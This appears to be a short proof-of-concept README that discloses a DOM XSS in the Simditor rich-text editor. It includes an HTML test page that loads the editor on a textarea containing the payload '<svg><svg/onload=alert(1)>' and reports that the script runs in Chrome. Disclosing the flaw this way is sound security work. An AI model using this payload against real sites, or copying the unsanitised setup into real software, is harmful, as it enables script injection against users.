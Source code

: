 # simditor
https://github.com/mycolorway/simditor
DOM XSS

## Download the Simditor source code.
```We just need this three js.
We just need this three js.
```
![image](https://github.com/hkglue/simditor_demo/blob/master/images/js.jpg)


##Edit a HTML FILE
```
<html>
<title>test</title>
<body>
<script type="text/javascript" src="./jquery.min.js"></script>
<script type="text/javascript" src="./module.js"></script>
<script type="text/javascript" src="./hotkeys.js"></script>
<script type="text/javascript" src="./simditor.js"></script>

<textarea id="editor"><svg><svg/onload=alert(1)></textarea>
<script>var editor = new Simditor({textarea: $('#editor')});</script>

</body>
</html>
```



##Open the HTML in any browser.
```Thiis is in my chrome
This is in my chrome，THE XSS PAYLOAD IS EXECUTE !
```
![image](https://github.com/hkglue/simditor_demo/blob/master/images/example.jpg)
